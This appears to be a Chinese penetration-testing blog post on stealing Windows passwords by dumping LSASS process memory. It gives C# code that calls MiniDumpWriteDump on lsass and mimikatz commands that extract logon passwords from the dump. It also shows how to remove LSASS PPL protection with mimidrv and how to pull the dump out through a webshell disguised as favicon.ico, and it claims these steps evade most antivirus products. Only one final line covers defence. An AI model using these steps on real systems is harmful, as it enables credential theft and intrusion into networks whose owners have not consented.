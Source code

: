 ```yaml
---
layout: post
title: MiniDumpWriteDump
---
```




## 0x01 

常见内网渗透会经常遇到抓取windows密码的场景，本文用来学习使用内存转储的方式来获取windows密码。

## 0x02

我们可以将转储LSASS的进程内存。Windows允许我们创建转储文件，它是给定进程的快照。此转储包括加载的库和应用程序内存。

在任务管理器中直接转储就可以，他将会生成一个dmp的文件，然后拿回本地用Mimikatz解密即可。



![img](https://gitee.com/a4m1n/tuchuang/raw/master/pic/clipboard.png)

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit > password.txt
```

这样做的缺点是需要图形化界面，需要登录到管理员桌面，然后操作，渗透中常用的方法有sqldump,procdump,不过Procdump在遇到某些AV时候会被拦截，不过选择要procdump的pid来转储时也可以达到Bypass的效果

## 0x03

其实不难发现，Procdump和任务管理器的这两种方法都是使用了MiniDumpWriteDump的API

```
BOOL MiniDumpWriteDump(
  HANDLE                            hProcess,      //获取 LSASS的句柄
  DWORD                             ProcessId,     //获取 LSASS的进程ID号
  HANDLE                            hFile,		   //要写入信息的文件句柄
  MINIDUMP_TYPE                     DumpType,      //要生成的信息类型
  PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,  //指向MINIDUMP_EXCEPTION_INFORMATION 结构的指针
  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,  //指向MINIDUMP_USER_STREAM_INFORMATION 结构的指针 
  PMINIDUMP_CALLBACK_INFORMATION    CallbackParam   //指向MINIDUMP_CALLBACK_INFORMATION 结构的指针
);
```

其实并不需要全部的参数，使用前面4个即可，然后看下需要的Import

![image-20210811173030733](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811173030733.png)

```
static extern bool MiniDumpWriteDump(IntPtr hProcess, uint ProcessId, IntPtr hFile, int DumpType, ref MINIDUMP_EXCEPTION_INFORMATION ExceptionParam,IntPtr UserStreamParam, IntPtr CallbackParam);
```

要获取进程 ID，我们可以使用 Process 类GetProcessesByName 方法

```
Process[] lsass = Process.GetProcessesByName("lsass");
int lsass_pid = lsass[0].Id;
```

使用Process方法的时候需要引入Diagnostics

![image-20210811174541665](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811174541665.png)

使用Win32 OpenProcess来获取Lsass

![image-20210811174944360](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811174944360.png)

```
static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
```

然后我们提供完整的访问参数

![image-20210811190434296](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811190434296.png)

最后设置需要输出的这个文件,这里选择使用Win32 CreateFile这个API

实例化FileStream对象，必须提供两个参数:文件名(lsass.dmp)、文件的完整路径和文件模式,这里要加入System.IO命名空间

![image-20210811191125006](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811191125006.png)

最后调用MiniDumpWriteFile,当向MiniDumpWriteFile加文件句柄时候,要加一个SafeHandle类

```
bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
```

至此结束,完整代码如下

![image-20210811191647971](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811191647971.png)

通常生成的lsass.dmp的文件一般比较大,只有webshell的时候下载不便,但是可以通过copy的方法,把favicon.ico复制到可以访问到的web目录,然后用wget将其下载本地解密,也可以直接把输出的文件地址改到web服务器的物理路径



解密方法

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit > password.txt
```

## 0x04

2012年之后,windows开发了一种缓解的技术,LSASS收到PPL保护,注册表可以看到HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa的值为1,不过该保护机制默认是关闭的

![image-20210811192818106](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811192818106.png)

这种情况下直接抓取密码是会失败的,同样也无法转储,返回错误值0x00000005 (Access拒绝），通常我们privilege::debug

是通过privilege::debug命令通过调用AdjustTokenPrivileges来启用SeDebugPrivilege,这也意味着我们要是系统管理员权限或者本地管理员权限，遇到这种情况可以使用mimikatz加载mimidrv

```
!+

!processprotect /process:lsass.exe /remove
```

![image-20210811193539749](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811193539749.png)

解除保护后就可以正常dump密码了



## 0x05

利用上述方法，可以Bypass国内的大部分AV, 面对卡巴斯基还是略差一点，不过卡巴目前还是可以通过reg的方法获取密码

![image-20210811194142907](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811194142907.png)

防御minidump 可以考虑监控NtReadVirtualMemory，修改指向的内存地址。